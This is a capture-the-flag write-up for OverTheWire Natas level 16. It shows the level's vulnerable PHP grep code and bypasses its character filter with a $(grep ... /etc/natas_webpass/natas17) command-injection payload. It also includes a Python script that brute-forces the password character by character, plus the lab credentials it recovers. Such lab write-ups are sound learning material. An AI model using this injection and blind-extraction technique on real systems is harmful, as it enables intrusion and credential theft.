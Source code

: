 ```yaml
---
layout: post
title: "Natas Level16 - Level17"
date: 2015-10-02 21:06:47
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas 16 looks similar to the earlier challenges where we were got to search for a word in a flat document. However this time it says "For security reasons, we now filter even more on certain characters":

![Natas 16 search](/assets/img/screenshots/Natas_level16-1.png)

Lets open up the source and see what the difference is:
    <html>
    <head>
    <!-- This stuff in the header has nothing to do with the level -->
    <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
    <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
    <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
    <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
    <script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
    <body>
    <h1>natas16</h1>
    <div id="content">

    For security reasons, we now filter even more on certain characters<br/><br/>
    <form>
    Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
    </form>


    Output:
    <pre>
    <?
    $key = "";

    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }

    if($key != "") {
        if(preg_match('/[;|&`\'"]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i \"$key\" dictionary.txt");
        }
    }
    ?>
    </pre>

    <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
    </body>
    </html>

Here is the regular expression that filters out the words:

    /[;|&`\'"]/

Basically any of the following characters are now disallowed: ; | & ' \ ' "

So any of our previous strings will not work. I remembered that you can execute commands within a string in bash by adding a: $(<<COMMANDHERE>>). My idea was to run the following code:

    $(grep ^A /etc/natas_webpass/natas17)

If we run that and the first character is "A" the entire password will be returned. If "A" does not exist, an empty string will be returned. However, this won't work because even if we guess the correct letter grep will return the password and search for the password in the dictionary which does not exist. If we find a word that exists in the dictionary, we would be able to utilize the fact that grep returns an empty string when the letter is not found. Lets first find a word we can use, I just searched for the letter "a":

![Natas 16 search for a](/assets/img/screenshots/Natas_level16-2.png)

I'll use the word "African" and that would mean our query string will look something like:

    $(grep ^A /etc/natas_webpass/natas17)African

Next I'll use the Burp Intruder to see if we can get just the first letter:

![Natas 16 search](/assets/img/screenshots/Natas_level16-3.png)

Looks like we got a hit! Now lets use a script. I'll copy most of it from the last challenge:

    import urllib
    import urllib2
    import pprint

    url = 'http://natas16.natas.labs.overthewire.org/'
    referrer = 'natas15.natas.labs.overthewire.org'
    authorization = 'Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=='

    Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
    's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
    'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
    '6','7','8','9']

    password = ""

    #loop through possible length of password
    for i in range(1, 33):
        print "%d out of 32" % (i)
        #loop through possible chars
        for j in range(0,len(Chars)):
            grep = '$(grep ^%s /etc/natas_webpass/natas17)African' % (password + Chars[j])
            values = {'needle' : grep,'submit' : 'Search'}
            req = urllib2.Request(url)
            req.add_data(urllib.urlencode(values))
            req.add_header('Referrer', referrer)
            req.add_header('Authorization', authorization)
            try:
                response = urllib2.urlopen(req)
                the_page = response.read()
                #print the_page
            except HTTPError, e:
                print e.reason
            if "African" not in the_page:
                password+=Chars[j]
                print password
                break

After that's done we get the following output:
    1 out of 32
    8
    2 out of 32
    8P
    3 out of 32
    8Ps
    4 out of 32
    ....
    27 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhP
    28 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
    29 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
    30 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
    31 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
    32 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

